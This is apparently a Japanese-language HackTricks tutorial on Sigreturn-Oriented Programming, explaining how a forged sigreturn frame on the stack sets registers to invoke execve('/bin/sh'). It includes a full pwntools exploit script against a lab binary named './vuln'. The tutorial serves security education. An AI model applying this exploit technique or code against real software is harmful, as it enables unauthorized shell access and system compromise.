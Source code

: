 # SROP - Sigreturn-Oriented Programming

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

**`Sigreturn`** は、主にシグナルハンドラの実行が完了した後のクリーンアップに使用される特別な **syscall** です。シグナルは、オペレーティングシステムによってプログラムに送信される中断で、通常は何らかの例外的な状況が発生したことを示します。プログラムがシグナルを受け取ると、シグナルを処理するために **シグナルハンドラ** という特別な関数を使用して、現在の作業を一時的に中断します。

シグナルハンドラが終了した後、プログラムは何も起こらなかったかのように **以前の状態に戻る** 必要があります。ここで **`sigreturn`** が登場します。これは、プログラムが **シグナルハンドラから戻る** のを助け、シグナルハンドラによって使用されたスタックフレーム（関数呼び出しやローカル変数を格納するメモリのセクション）をクリーンアップすることでプログラムの状態を復元します。

興味深いのは、**`sigreturn`** がプログラムの状態をどのように復元するかです：それは **すべてのCPUのレジスタ値をスタックに保存することによって** 行います。シグナルがもはやブロックされていないとき、**`sigreturn` はこれらの値をスタックからポップし**、実質的にCPUのレジスタをシグナルが処理される前の状態にリセットします。これには、スタックの現在のトップを指すスタックポインタレジスタ（RSP）が含まれます。

{% hint style="danger" %}
ROPチェーンから **`sigreturn`** を呼び出し、**レジスタ値を追加**することで、**スタック**に読み込ませたい値を制御することが可能であり、したがって例えば `execve` syscall を `/bin/sh` で呼び出すことができます。
{% endhint %}

これは **Ret2syscallの一種** であり、他のRet2syscallを呼び出すためのパラメータを制御するのがはるかに簡単になります：

{% content-ref url="rop-syscall-execv.md" %}
[rop-syscall-execv.md](rop-syscall-execv.md)
{% endcontent-ref %}

より良い説明については、以下も確認してください：

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## 例

[**ここに例があります**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop)が、これはそこからの最終的なエクスプロイトです：
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
## 参考文献

* [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
